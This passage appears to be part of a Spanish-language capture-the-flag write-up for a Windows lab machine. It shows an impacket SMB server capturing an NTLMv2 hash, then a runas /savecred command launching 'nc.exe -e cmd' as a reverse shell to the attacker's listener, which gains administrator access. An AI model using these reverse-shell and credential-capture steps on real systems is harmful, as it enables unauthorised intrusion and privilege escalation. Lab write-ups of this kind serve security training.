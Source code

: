```bash
-a---          1/3/2022  12:00 AM      28160 nc.exe                                                                             


PS C:\Users\security\Desktop\test> 
```

```bash
❯ impacket-smbserver smbFolder $(pwd)
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.98,49159)
[*] AUTHENTICATE_MESSAGE (ACCESS\security,ACCESS)
[*] User ACCESS\security authenticated successfully
[*] security::ACCESS:aaaaaaaaaaaaaaaa:c332f6c0237137da4e4644e00a491165:010100000000000080b69c163700d801733f4cc843d845f5000000000100100067007a00680072007a00450050006a000300100067007a00680072007a00450050006a000200100069007a0073004b0078005100690050000400100069007a0073004b0078005100690050000700080080b69c163700d801060004000200000008003000300000000000000000000000002000002b50b2f3f6743d8f625c8c37ed5ede17540078931ebbe5138e18f68df3ba13f30a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0032003700000000000000000000000000
[-] Unknown level for query path info! 0x109
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:SMBFOLDER)
[*] Closing down connection (10.10.10.98,49159)
[*] Remaining connections []
```

Nos ponemos en escucha por el puerto 443 y nos entablamos una reverse shell.

```bash
PS C:\Users\security\Desktop\test> runas.exe /user:ACCESS\Administrator /savecred "nc.exe -e cmd 10.10.14.27 443"
PS C:\Users\security\Desktop\test>
```

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.98] 49160
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

whoami
whoami
access\administrator

C:\Windows\system32>
```

Ya somos el usuario **Administrator** y podemos visualizar la flag (root.txt).
